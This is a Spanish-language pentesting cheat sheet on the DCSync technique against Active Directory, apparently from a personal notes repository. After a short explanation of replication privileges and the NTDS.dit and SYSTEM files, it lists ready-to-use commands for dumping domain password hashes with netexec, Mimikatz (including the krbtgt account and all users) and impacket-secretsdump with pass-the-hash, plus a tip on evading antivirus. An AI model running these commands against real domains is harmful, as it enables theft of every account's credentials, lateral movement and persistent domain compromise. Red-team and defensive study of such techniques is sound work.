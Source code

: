 # DCSync

Tags: #AD #DCSync #Persistencia #Windows 

DCSync es una técnica de post-explotación en entornos Windows, específicamente en redes que operan con Active Directory (AD). Este método permite a un atacante con privilegios elevados imitar las funciones de un Controlador de Dominio (DC) para obtener información sensible de otros DCs. Entre los datos comprometidos se incluyen hashes de contraseñas de usuarios, claves de cifrado de Kerberos y otros elementos protegidos que normalmente solo están disponibles para los Controladores de Dominio.

```bash 
# Cómo funciona DCSync
1. Privilegios Necesarios: Para ejecutar un ataque DCSync, el atacante necesita tener privilegios de nivel alto en el dominio, típicamente como un usuario con el rol de "Domain Admin" o similar.
2. Mimikatz y DCSync: Una de las herramientas más populares que implementa este ataque es Mimikatz. Mimikatz tiene un módulo llamado 'lsadump' que puede utilizarse para realizar un ataque DCSync.
3. Replicación de Directorio: El ataque se basa en la funcionalidad legítima de replicación de directorio entre Controladores de Dominio. El protocolo de replicación de AD, MS-DRSR (Microsoft Directory Replication Service (DRS) Remote Protocol), permite a un DC obtener actualizaciones de datos de otro DC. Un atacante puede utilizar este protocolo para simular una solicitud de replicación.
4. Solicitud de Datos de Cuentas: Un atacante puede solicitar los datos de ciertas cuentas específicas, o incluso de todas las cuentas en el dominio, lo que incluye los hashes de las contraseñas de NTLM y los tickets de Kerberos (TGTs).
5. Extracción de Información Sensible: El ataque permite que el atacante extraiga información que puede ser utilizada para aumentar su nivel de acceso o para comprometer aún más la red, realizando ataques de movimiento lateral o elevación de privilegios.
```

```powershell 
## Extracción de Credenciales del Dominio de Active Directory

Cuando se realiza una tarea tan crítica como la extracción de credenciales de un dominio de Active Directory, es fundamental comprender la importancia y la sensibilidad de los archivos involucrados. El archivo NTDS.dit es esencialmente el corazón de AD, ya que contiene todas las cuentas de usuario, contraseñas hash y otros datos críticos del dominio. Por lo tanto, es un objetivo primordial en las actividades de post-explotación y debe ser manejado con extrema precaución y bajo estrictas medidas de seguridad.

El archivo de sistema, comúnmente conocido como el hive SYSTEM, contiene configuraciones clave del sistema y es necesario para descifrar los hashes de contraseñas almacenados en NTDS.dit.

Normalmente, puedes encontrar el archivo ntds.dit en dos ubicaciones:

❯ 'systemroot\NTDS\ntds.dit'
❯ 'systemroot\System32\ntds.dit'
    
Y la ruta del SYSTEM en:

❯ 'C:\Windows\System32\SYSTEM'

Es común que estos archivos sean el objetivo principal de herramientas de extracción de credenciales, como el ataque DCSync que emula el comportamiento de un controlador de dominio solicitando información de usuario de otros controladores de dominio sin necesidad de ejecutar código en el controlador de dominio objetivo.
```

```bash 
# Estos privilegios los tienen los usuarios 'Domain Admin' 

1. DS-Replication-Get-Changes
2. Replicating Directory Changes All
3. Replicating Directory Changes In Filtered Set 
```

## Utilizando Netexec

```powershell
# Comando para usuarios con altos privilegios 

❯ nxc smb IP -u "admin" -p "Password@1" -d "domain1.corp" --ntds   # Nos muestra loas hashes de los usuarios, por lo que se puede hacer 'Pass-The-Hash'
```

## Utilizando Mimikatz

```powershell
❯ .\mimikatz.exe 
	# lsadump::dcsync /domain:domain1.corp /user:krbtgt    # Obtener el hash NTLM
```

```powershell
# Para exfiltrar todos los usuarios del dominio:

❯ .\mimikatz.exe
	# lsadump::dcsync /domain:domain1.corp /all /csv
```

## Utilizando Impacket-secretsdump

```powershell
❯ impacket-secretsdump domain1.corp/user@IP-DC 
❯ impacket-secretsdump -debug -dc-ip <IP> admin@domain1.corp -hashes :64fbae31cc352fc26af97cbdef151e03 
	
	# debug = Obtener mas info 
	# dc-ip = Dirección IP del DC
	# upn 'UserPrincipalName' = Nombre del usuario y DC
	# hashes = Hash del usuario 'NTLM'

Notas: 
	1. Es mejor hacer un 'Pass-The-Hash' con el 'aes256' que con el 'rc4' ya que los AV los detectan más fácil 
	2. Tener credenciales validas para que funcione 
```